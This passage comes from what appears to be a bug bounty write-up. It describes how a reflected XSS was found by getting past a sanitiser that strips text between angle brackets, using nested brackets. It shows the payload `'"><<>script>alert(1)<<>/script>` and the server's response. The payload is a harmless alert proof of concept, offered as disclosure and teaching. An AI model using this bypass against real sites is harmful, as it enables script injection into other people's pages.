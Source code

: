 and the response contained the following HTML code

{% include codeHeader.html %}
```html
<meta name="title" content="Resultados asociados a la palabra: 'bugbountytest1'">
```

so the sanitization removes all the content between the < and > characters, both characters included, and not only the content that matches with some keywords. After that I wondered if nesting the < and > characters would give a different result so I sent several requests nesting the < and > characters but the most revealing of all was

{% include codeHeader.html %}
```html
https://www.example.com/?vuln-param=bugbountytest1'"><<>bugbountytest2>
```

whose response contained the following HTML code

{% include codeHeader.html %}
```html
<meta name="title" content="Resultados asociados a la palabra: 'bugbountytest1'">
<bugbountytest2>
```

This result yields a very clear way of injecting javascript code in the response using the following request

{% include codeHeader.html %}
```html
https://www.example.com/?vuln-param=bugbountytest1'"><<>script>alert(1)<<>/script>
```

The response contained the following HTML code

{% include codeHeader.html %}
```html
<meta name="title" content="Resultados asociados a la palabra: 'bugbountytest1'">
<script>alert(1)</script>
```

and the reflected XSS was reproduced as you can see in the following screenshot

![](/assets/images/2022-09-20-bug-bounty-1/xss-alert.png)
